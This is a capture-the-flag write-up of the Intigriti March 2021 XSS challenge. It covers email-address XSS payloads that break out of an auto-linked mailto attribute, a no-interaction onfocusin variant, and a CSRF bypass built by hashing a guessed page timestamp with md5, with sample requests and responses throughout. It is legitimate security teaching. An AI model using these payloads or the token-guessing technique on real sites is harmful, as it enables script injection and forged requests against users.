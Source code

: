 
Intigriti March XSS challenge

Problem Statement
----------------------
URL : https://challenge-0321.intigriti.io/

![image](https://user-images.githubusercontent.com/19681324/113403529-6c9c7c80-93c4-11eb-8f6f-b5aa5ee503e0.png)

Let's Pop an alert
------------------
At the bottom of the page there is an **Your notes:** section. 
![image](https://user-images.githubusercontent.com/19681324/113403778-d026aa00-93c4-11eb-88f6-7d793631fccc.png)

Check out the source of the html page
```html
  <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved.</p>
            <input type="hidden" name="csrf" value="6896be5ae9b23b85432afab717277824"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
      <script>
          var _note = document.getElementById("notes-display").innerText;   // (1)
          document.getElementById("notes-display").onkeyup = function(e){   // (2)
            var note = document.getElementById("notes-display").innerText;
            if(note != _note){
              document.getElementById("notes-save").style.visibility = "visible";
            }
            else{
              document.getElementById("notes-save").style.visibility = "hidden";
            }
          }
          document.getElementById("notes-save").onclick = function(e){  // (3)
            document.getElementById('notes-value').value = document.getElementById('notes-display').innerText;
            this.closest('form').submit();
            return false;
          }
      </script>
   </body>
   <!-- page generated at 2021-04-02 09:36:09 --> 
</html>
```
Break down the source in different steps:
  - There is a form with id update-notes. Notable thing in the form is `<p>` tag with attribute `contenteditable="true"`, we will revisit this cause this important.
    - Form has two hidden input field: csrf , notes
    - csrf value 6896be5ae9b23b85432afab717277824 seems to be an MD5 value
    - ![image](https://user-images.githubusercontent.com/19681324/113405642-c6eb0c80-93c7-11eb-9e47-f29410a59178.png)
  - Script section
    - (1) declare _note and assing innerText of note-display paragraph
    - (2) onkeyup event on note-display check note-display paragraph innerText is changed, if yes then display the save button, else hide the save button
    - (3) on clicking the save button assign the innerText of notes-display to notes-value and submit the form.
  - one more interesting thing to note is the comment `<!-- page generated at 2021-04-02 09:36:09 --> ` at the bottom of the page

Changing the note and clicking on save will send a POST request and updated note will be reflected on the page
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Connection: close
Content-Length: 58
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=36cd9b23b082ae06c73c73e79a6dc64f&notes=No+notes+saved
```
If we add  special character like <> , & these were being html escaped in the response from the server, however charaters like !, #, $, @, ^,*,(,),',"  were not html escaped
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=504d6da7a099d980ac787f87850626b4&notes=No+notes+saved+%3C%3E%3C%3C%21%23%24%40%5E%26*%23%28%23%29+%27%22%2C
```
Response

```html
     <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved &lt;&gt;&lt;&lt;!#$@^&amp;*#(#) '",</p>
            <input type="hidden" name="csrf" value="be98377d284ac8c558ac9c8303f50ab1"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
```

One interesting transformation of response occure while updating note-display to an url or email
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=e15e6d924554f427fd53ff9b5b319069&notes=https://www.google.com+abc@def.com
```
Response
```html
<p id="notes-display" class="card-content" contenteditable="true">
  <a href="https://www.google.com " target="_blank">https://www.google.com </a>
  <a href="mailto:abc@def.com">abc@def.com</a>
</p>
```
URL and email addresses are turning into an anchor tag.
![image](https://user-images.githubusercontent.com/19681324/113423650-7df97f00-93ec-11eb-8e96-b8fda73ef182.png)

However invalid email addresses and URL were not getting transformed e.g. invalid url- https:/www.google.com   invalid email - @soemthing.com
```html
  <p id="notes-display" class="card-content" contenteditable="true">
    https:/www.google.com  @soemthing.com
  </p>
```

Tried a lot with url to escape the anchor tag and alert the flag, but didn't work. 
Doing a simple google search with the text xss email payload , first result is https://brutelogic.com.br/blog/xss-limited-input-formats/  which suggest a xss payload to use is `"<svg/onload=alert(1)>"@x.y` , bruteforce tweets this as well
![image](https://user-images.githubusercontent.com/19681324/113426701-79839500-93f1-11eb-8a37-c33d39ec712b.png)

but <> characters are escaped by the server side
```html
<a href="mailto:"&lt;svg/onload=alert(1)&gt;"@x.y">"&lt;svg/onload=alert(1)&gt;"@x.y</a>
```
however " are not escaped, as we can see avobe we came out of href attribute. So changing the payload slightly to `"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y` we get a response like this
```html
<p id="notes-display" class="card-content" contenteditable="true">
<a href="mailto:"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y">"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y</a>
```
which gets us an alert 
![image](https://user-images.githubusercontent.com/19681324/113427645-0a0ea500-93f3-11eb-93b3-9571e871e645.png)

However this involves user interaction, to avoid user interaction we hope over to the burpsuite xss cheat sheet.https://portswigger.net/web-security/cross-site-scripting/cheat-sheet  we have two specific payloads which works in chrome, does not work in firefox though
![image](https://user-images.githubusercontent.com/19681324/113430130-447a4100-93f7-11eb-915b-925d8532a2d1.png)

and both of these payloads can be triggered by using #x ( id used in the payload ) in the url. so the resultant payload would be `"id='x'tabindex='1'onfocusin='alert(flag.innerText)'"@x.y`

It's not solved yet, as mentioned in the solution section of the CTF self-xss are not allowed. so we have to trick someone into clicking a link and triggering the xss. but there is one problem. There is CSRF protection. Using an invalid csrf token gives us a 403 forbidden response and csrf token changes each time we send a request to the server
```html
HTTP/1.1 403 Forbidden
Server: nginx/1.17.10
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
```
 
Bypassing CSRF
-------------
To bypass CSRF protection, we have to analyze the working or csrf token
1. When you browse the url https://challenge-0321.intigriti.io/ for the first time application set the session id in the cookie and returns a CSRF token along with a commentes timestamp at the bottom of the page ```  <input type="hidden" name="csrf" value="12b0fbaa60f0656c93ad0278e0f59d91"/>   <!-- page generated at 2021-04-04 02:22:43 --> ```
2. Hop over to the cyberchef to check that the csrf token is the md5 hash of the page generated timestamp ![image](https://user-images.githubusercontent.com/19681324/113497370-142ec180-9521-11eb-9dbd-90cedd7d9435.png)

3. To bypass the csrf restriction, we have to guess the timestamp and generate a md5 hash of that to use as an token. Then we can submit the form with csrf token and payload created earlier. 



Things i tried but didn't work
------------------------------

tried `javascript://%0Aalert(1)`
tried `"<svg/onload=alert(1)>"@x.y`


Credit and reference
--------------------
- https://holme-sec.medium.com/timestamps-and-weird-emails-a-solution-for-intigritis-0321-challenge-849dfee9e798  -- @holme_sec : Credit for No user interaction xss and html POC
- https://infosecwriteups.com/intigriti-xss-challenge-0321-472ae0a48254 
- https://blog.isiraadithya.com/intigriti-0321-xss-challenge-writeup/
